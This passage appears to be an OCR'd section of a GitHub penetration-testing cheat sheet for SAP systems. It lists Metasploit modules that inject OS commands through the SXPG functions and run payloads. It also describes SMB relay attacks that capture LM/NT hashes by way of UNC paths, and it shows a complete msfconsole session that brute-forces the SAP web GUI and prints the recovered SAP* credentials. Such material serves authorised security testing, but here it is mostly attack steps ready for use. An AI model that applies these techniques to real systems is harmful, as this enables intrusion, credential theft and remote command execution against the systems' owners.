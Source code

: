 ```
> Attempts to use the SXPG_COMMAND_EXECUTE function to execute valid SM69 transaction commands in the remote system.
  Valid SAP credentials are required. 

auxiliary/scanner/sap/sap_soap_ rfc_dbmcli_sxpg_call_system_ command_exec.rb 
> Attempts to attack the SXPG_CALL_SYSTEM function to inject and execute arbitrary OS commands through the SM69 DBMCLI command.
  Valid SAP credentials are required. For more information about the DBMCLI injection, see this blog from @ nmonkee. 

auxiliary/scanner/sap/sap_soap_ rfc_dbmcli_sxpg_command_exec.rb
 > Attempts to attack the SXPG_COMMAND_EXECUTE function to inject and execute arbitrary OS commands through the SM69 DBMCLI command.
   Valid SAP credentials are required. For more information about the DBMCLI injection, see this blog from @ nmonkee.  

exploits/multi/sap/sap_soap_rfc_ sxpg_call_system_exec.rb 
> Attempts to attack command injection issues on SXPG_CALL_ SYSTEM to externally execute a Metasploit payload on the remote system.
  Valid SAP credentials are required. 

exploits/multi/sap/sap_soap_rfc_ sxpg_command_exec.rb 
> Attempts to attack command injection issues on SXPG_ COMMAND_EXECUTE to externally execute a Metasploit payload on the remote system.
  Valid SAP credentials are required. 
```

<i/> SMB Relay attacks using Metasploit </i>
```
There is also an interesting attack that can target different SAP functions and is reachable via the SOAP RFC or other components
such as those in the J2EE engine—more about that later. 
While handling names, a lot of functions are vulnerable to SMB Relay Attacks. 
These attacks send an UNC path pointing to a server capturing SMB hashes, which can be disclosed when the vulnerable component
tries to access it. 

> Some SMB Relay Attack attacks, both unauthenticated and authenticated, have been collected by @nmonkee in an auxiliary module located
  at /auxiliary/scanner/sap/sap_smb_relay.rb. 
> Module to run to capture the SMB Hashs (LMhash and NTHash): auxiliary/server/capture/smb module capturing SMB hashes 
```

<i/> SAP Web interface password brute-force using Metasploit </i>
```
Launch brute force attacks against the Web GUI with the module : auxiliary/scanner/sap/sap_web_gui_brute_login.rb

msf > use auxiliary/scanner/sap/sap_web_gui_brute_login
msf auxiliary(sap_web_gui_brute_login) > show options
<SNIP>
msf auxiliary(sap_web_gui_brute_login) > set RHOSTS 192.168.172.179
msf auxiliary(sap_web_gui_brute_login) > set RPORT 8042
msf auxiliary(sap_web_gui_brute_login) > run
<SNIP>
[SAP] Credentials
=================
   host             port  client  user  pass
   ----             ----  ------  ----  ----
   192.168.172.179  8042  001     SAP*  06071992
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(sap_web_gui_brute_login)
```